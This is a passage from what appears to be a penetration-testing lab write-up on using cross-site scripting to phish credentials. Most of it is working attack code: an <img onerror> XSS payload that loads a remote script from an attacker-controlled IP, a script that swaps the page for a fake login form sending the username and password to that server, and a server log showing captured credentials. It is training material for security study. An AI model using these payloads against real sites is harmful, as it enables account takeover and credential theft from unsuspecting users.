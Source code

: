 We need to find a way to execute our payload (`xssPhishingLogin.js`) via the `<img>` tag. This can be achieved by [creating a `script` element](https://www.codingbeautydev.com/blog/javascript-create-script-element?utm_source=medium\&utm_campaign=blog\&utm_medium=social) within the `<img>` tag itself. Again, we will remove the unecessary parts from the code, and point it to our malicious server.

```javascript
const script = document.createElement('script');
// point the element's source to our malicious payload
script.src = 'http://192.168.45.214/xssPhishingLogin.js';
script.async = true;
document.body.appendChild(script);
```

In order to place it within our `<img>`-based XSS payload, we need to convert the above code into a one-liner by removing all the white space.

{% code overflow="wrap" %}
```javascript
<img src="/" onerror='const script = document.createElement("script");script.src = "http://192.168.45.214/xssPhishingLogin.js";script.async = true;document.body.appendChild(script);'>
```
{% endcode %}

Finally, we need to create the `xssPhishingLogin.js` file. We need to use this to essentially replace the HTML code of the List application with the HTML code of our login form. For doing this, we need to convert our `login.html` code into a one-liner and use `innerHTML` to make the swap.

{% code title="xssPhishingLogin.js" overflow="wrap" %}
```javascript
document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.214/login.html" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><button type="submit">Login</button></div></form>'
```
{% endcode %}

Now that everything is in place, by injecting our XSS payload into the vulnerable field, the target user will be redirected to our login form, and we should receive their credentials.

<figure><img src="../../../.gitbook/assets/web_xss_phising_5.png" alt=""><figcaption><p>Figure 7: Injecting the XSS payload.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 14:13:45] "GET /xssPhishingLogin.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 14:13:51] "GET /login.html?uname=IDontHackStuff&psw=OS%7B<SNIP>%7D HTTP/1.1" 200 -
```
{% endcode %}
